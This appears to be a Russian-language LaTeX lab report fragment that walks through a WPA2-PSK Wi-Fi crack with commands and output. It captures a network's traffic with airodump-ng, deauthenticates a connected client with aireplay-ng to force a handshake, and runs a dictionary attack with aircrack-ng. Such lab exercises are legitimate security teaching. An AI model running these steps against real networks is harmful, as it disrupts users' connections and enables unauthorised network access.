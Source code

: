 \documentclass[10pt,a4paper,titlepage]{article}
\begin{document}
Для сбора трафика и получения аутентификационных сообщений запустим команду, приведенную ниже:
\begin{verbatim}
 root@kali:~# airodump-ng mon1 --write dump --bssid 5D:6E:A7:49:7B:83 -c 4 
 CH  4 ][ Elapsed: 18 s ][ 2016-06-18 16:43                                         
                                                                                                                      
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                   
                                                                                                                      
 5D:6E:A7:49:7B:83    0 100      198      345    0   4  54e. WPA2 CCMP   PSK  Zhuki                                     
                                                                                                                      
 BSSID              STATION            PWR   Rate    Lost   Frames  Probe                                            
                                                                                                                                                                                                
 5D:6E:A7:49:7B:83  17:16:49:75:DB:CF    0    0e- 0     2     1693                                                                     
\end{verbatim}

Видно, что к сети подключен клиент а MAC-адресом 17:16:49:75:DB:CF.

\subsubsection{Провести деаутентификацию одного из клиентов, до тех пор, пока не удастся собрать необходимых для взлома аутентификационных сообщений}

Проведем деаутентификацию указанного выше(17:16:49:75:DB:CF) клиента.
\begin{verbatim}
 root@kali:~# aireplay-ng -0 1 -a 5D:6E:A7:49:7B:83 -c 17:16:49:75:DB:CF mon1
17:01:37  Waiting for beacon frame (BSSID: 5D:6E:A7:49:7B:83) on channel 4
17:01:38  Sending 64 directed DeAuth. STMAC: [17:16:49:75:DB:CF] [ 42|67 ACKs]
\end{verbatim}

\subsubsection{Провести взлом, используя словарь паролей}
Попробуем подобрать пароль по словарю. Выполним следующую команду. 
\begin{verbatim}                               
 root@kali:~# aircrack-ng dump*.cap -w pass -b 5D:6E:A7:49:7B:83
\end{verbatim}
Здесь dump*.cap - маска для файлом с дампом. pass - файл с паролями для перебора.
\end{document}
